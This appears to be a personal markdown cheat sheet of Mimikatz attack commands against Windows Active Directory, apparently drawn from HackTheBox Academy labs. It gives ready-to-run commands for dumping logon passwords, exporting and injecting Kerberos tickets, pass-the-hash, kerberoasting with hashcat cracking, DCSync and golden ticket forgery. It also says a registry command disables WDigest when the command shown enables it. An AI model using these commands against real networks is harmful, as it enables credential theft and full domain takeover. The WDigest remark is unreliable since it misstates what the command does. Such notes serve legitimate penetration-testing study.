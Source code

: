 ```yaml
---
tags:
  - windows
  - PtH
  - PtT
  - kerberoasting
  - dcsync
  - sid-abuse
---
```

# Modules
## Logon Passwords
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit
```
>Note: If the password field is blank, the WDigest might be enabled, you can disable it with:
```powershell
PS > reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
## Export Tickets
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit
```
# Pass the Hash
Following are required:
- `/user` to authenticate as
- `/rc4` or `/NTLM` hash of the user's password.
- `/domain` the user to impersonate belongs to. If it's local user account, use the computer name, localhost, or a dot (.).
- `/run` - Program to run with the user's context (default cmd.exe).
```powershell
PS > mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<RC4/NTLM HASH> /domain:<domain> /run:cmd.exe" exit
```

# Pass the Key / OverPass the Hash
## Extract Kerberos Keys
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

```powershell
PS > mimikatz.exe privilege::debug "/domain:inlanefreight.htb /user:plaintext /ntlm:<HASH>" exit
```

```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"' exit
```
>**Note:** Instead of opening mimikatz.exe with `cmd.exe` and exiting to get the ticket into the current command prompt, we can use the  `misc` module to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"' exit
PS > Enter-PSSession -ComputerName DC01
```
# Kerberoasting
## Extract TGS Ticket from Memory
If the TGS ticket is in memory (from [[SetSPN]] for example), extract it:
```Powershell
mimikatz > base64 /out:true
mimikatz > kerberos::list /export

<SNIP>
[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1T
<SNIP>
LkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFu
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================
   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
<SNIP>
```
>Without `base64 /out:true` command, it will extract the tickets in `.kirbi` files, with which we can directly skip to `kirbi2john` step.
## Prepare the file for Cracking
- Clean the base64 and convert to `.kirbi`:
```shell-session
$ echo "<base64 blob>" |  tr -d \\n >> encoded_file
$ cat encoded_file | base64 -d > sqldev.kirbi
$ kirbi2john sqldev.kirbi
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs.hashcat                 # Only if not in correct format
$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$813149fb<SNIP>8e71a057feeab
```
## Crack the Hash using [[Hashcat]]
```shell-session
$ hashcat -m 13100 sqldev_tgs.hashcat /usr/share/wordlists/rockyou.txt
```
# DCSync
Mimikatz must be ran in the context of the user who has DCSync privileges and only one user can be attacked at a time.
- Using `runas`
```cmd-shell
> runas /netonly /user:INLANEFREIGHT\adunn powershell
```
- Using 
```powershell
PS > .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
... SNIP ...
	NTLM: <NTLM-HASH>
... SNIP ...
```
# Golden Ticket
- Obtain the KRBTGT Account's NT Hash:
```powershell
mimikatz > lsadump::dcsync /user:LOGISTICS\krbtgt
```
- Get current child domain SID using [[PowerView#[Get-DomainSID](https //powersploit.readthedocs.io/en/latest/Recon/Get-DomainSID/)|Get-DomainSID]]
- Get SID for Enterprise Admins group in the parent domain either with [[ActiveDirectory#[Get-ADGroup](https //docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps)|Get-ADGroup]] or [[PowerView#[Get-DomainGroup](https //powersploit.readthedocs.io/en/latest/Recon/Get-DomainGroup/)|Get-DomainGroup]]:
```powershell
PS > Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
PS > Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
- Request a Golden Ticket:
```powershell
mimikatz > kerberos::golden /user:hacker /domain:<CHILD-DOMAIN-FQDN> /sid:<CHILD-DOMAIN-SID> /krbtgt:<KRBTGT-NTHash> /sids:<ROOT-DOMAIN-ENTERPRISE-ADMIN-SID> /ptt
```
The ticket can be confirmed with [[klist]]. And if the attack is successful, we should be able to read DC's whole C drive!
```powershell
PS > ls \\academy-ea-dc01.inlanefreight.local\c$
```